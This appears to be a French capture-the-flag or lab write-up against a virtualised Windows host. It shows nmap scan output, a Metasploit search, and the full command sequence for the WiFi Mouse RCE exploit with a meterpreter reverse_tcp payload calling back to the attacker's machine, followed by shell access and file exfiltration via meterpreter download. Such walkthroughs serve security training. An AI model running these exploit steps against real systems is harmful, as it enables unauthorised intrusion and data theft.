





Description : 

Catégorie : 
Systeme : Windows 

Etape : 

nmap -sC -sV 172.20.18.108



`map -p- -sC -sV  172.20.18.108`
```

Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-22 15:29 CST
Nmap scan report for 172.20.18.108
Host is up (0.00042s latency).
Not shown: 65523 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
1978/tcp  open  unisql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|     system windows 6.2
|_    luminateOK
5040/tcp  open  unknown
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1978-TCP:V=7.94SVN%I=7%D=1/22%Time=697296DF%P=x86_64-pc-linux-gnu%r
SF:(NULL,1E,"system\x20windows\x206\.2\nluminateOK\n")%r(GenericLines,1E,"
SF:system\x20windows\x206\.2\nluminateOK\n")%r(GetRequest,1E,"system\x20wi
SF:ndows\x206\.2\nluminateOK\n")%r(HTTPOptions,1E,"system\x20windows\x206\
SF:.2\nluminateOK\n")%r(RTSPRequest,1E,"system\x20windows\x206\.2\nluminat
SF:eOK\n")%r(RPCCheck,1E,"system\x20windows\x206\.2\nluminateOK\n")%r(DNSV
SF:ersionBindReqTCP,1E,"system\x20windows\x206\.2\nluminateOK\n")%r(DNSSta
SF:tusRequestTCP,1E,"system\x20windows\x206\.2\nluminateOK\n")%r(Help,1E,"
SF:system\x20windows\x206\.2\nluminateOK\n")%r(SSLSessionReq,1E,"system\x2
SF:0windows\x206\.2\nluminateOK\n")%r(TerminalServerCookie,1E,"system\x20w
SF:indows\x206\.2\nluminateOK\n")%r(TLSSessionReq,1E,"system\x20windows\x2
SF:06\.2\nluminateOK\n")%r(Kerberos,1E,"system\x20windows\x206\.2\nluminat
SF:eOK\n")%r(SMBProgNeg,1E,"system\x20windows\x206\.2\nluminateOK\n")%r(X1
SF:1Probe,1E,"system\x20windows\x206\.2\nluminateOK\n")%r(FourOhFourReques
SF:t,1E,"system\x20windows\x206\.2\nluminateOK\n")%r(LPDString,1E,"system\
SF:x20windows\x206\.2\nluminateOK\n")%r(LDAPSearchReq,1E,"system\x20window
SF:s\x206\.2\nluminateOK\n")%r(LDAPBindReq,1E,"system\x20windows\x206\.2\n
SF:luminateOK\n")%r(SIPOptions,1E,"system\x20windows\x206\.2\nluminateOK\n
SF:")%r(LANDesk-RC,1E,"system\x20windows\x206\.2\nluminateOK\n")%r(Termina
SF:lServer,1E,"system\x20windows\x206\.2\nluminateOK\n")%r(NCP,1E,"system\
SF:x20windows\x206\.2\nluminateOK\n")%r(NotesRPC,1E,"system\x20windows\x20
SF:6\.2\nluminateOK\n")%r(JavaRMI,1E,"system\x20windows\x206\.2\nluminateO
SF:K\n")%r(WMSRequest,1E,"system\x20windows\x206\.2\nluminateOK\n")%r(orac
SF:le-tns,1E,"system\x20windows\x206\.2\nluminateOK\n")%r(ms-sql-s,1E,"sys
SF:tem\x20windows\x206\.2\nluminateOK\n")%r(afp,1E,"system\x20windows\x206
SF:\.2\nluminateOK\n")%r(giop,1E,"system\x20windows\x206\.2\nluminateOK\n"
SF:);
MAC Address: 52:54:00:A4:50:D9 (QEMU virtual NIC)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -3h00m01s
|_nbstat: NetBIOS name: DESKTOP-BG4O059, NetBIOS user: <unknown>, NetBIOS MAC: 52:54:00:a4:50:d9 (QEMU virtual NIC)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-01-22T18:32:37
|_  start_date: N/A

```

```
impacket-rpcdump 172.20.18.108

```
Le port TCP 1978 est principalement associé au service UniSQL , un système de base de données relationnelle, bien qu'il soit parfois aussi noté pour des activités liées à des **chevaux de Troie (trojans)** ou des **malwares** dans certains contextes de sécurité, selon les registres d'IANA et les outils d'analyse de ports

- Exploitation 


On remarque en réalise que c'est le service Mouse qui fonctionne sur ce port.

Recherche de vulnérabilité sur ce service 
Lancer metasploit pour chercher le service mouse associé au WIFI 

```
msf6 > search mouse
   -   ----                                                      ---------------  ----       -----  -----------
   0   post/windows/manage/execute_dotnet_assembly               .                normal     No     Execute .NET Assembly
   1   exploit/multi/fileformat/libreoffice_macro_exec           2018-10-18       normal     No     LibreOffice Macro Code Execution
   2     \_ target: Windows                                      .                .          .      .
   3     \_ target: Linux                                        .                .          .      .
   4   exploit/windows/browser/ie_setmousecapture_uaf            2013-09-17       normal     No     MS13-080 Microsoft Internet Explorer SetMouseCapture Use-After-Free
   5     \_ target: Automatic                                    .                .          .      .
   6     \_ target: Windows 7 with Office 2007|2010              .                .          .      .
   7     \_ target: Windows XP with IE 8                         .                .          .      .
   8   exploit/windows/misc/mobile_mouse_rce                     2022-09-20       normal     Yes    Mobile Mouse RCE
   9   post/multi/manage/screenshare                             .                normal     No     Multi Manage the screen of the target meterpreter session
   10  exploit/windows/misc/remote_mouse_rce                     2019-04-15       normal     Yes    Remote Mouse RCE
   11  exploit/windows/misc/wifi_mouse_rce                       2021-02-25       normal     No     Wifi Mouse RCE
   12  post/windows/gather/outlook                               .                normal     No     Windows Gather Outlook Email Messages
   13    \_ action: LIST                                         .                .          .      Lists all folders
   14    \_ action: SEARCH                                       .                .          .      Searches for an email
   15  exploit/unix/webapp/wp_easycart_unrestricted_file_upload  2015-01-08       excellent  No     WordPress WP EasyCart Unrestricted File Upload
```

Ce qui nous intéresse est le exploit/windows/misc/wifi_mouse_rce  

Utilisation :
```

use exploit/windows/misc/wifi_mouse_rce
options
> set RHOSTS 172.20.18.108
> set LHOST 172.20.18.141
>  set SRVPORT 8081
>   set payload windows/meterpreter/reverse_tcp
>  exploit
```





Boom on a obtenu un shell 

Obtenir un shell powershell 

shell //ce qui nous donne le cmd 
powershell // ensuite qui donnera un powershell 

Tâche 2 
What is the number of compromised user data?

`(Select-String -Path response.txt -Pattern '"name":' | Measure-Object).Count`

Tâche 5 :
Le hash MD5 du malware utilisé 

Récupérer le fichier zip depuis la cible avec download de meterpreter 

Commande : 

`download "C:\\Users\Harry\\Downloads\\malware.zip"`


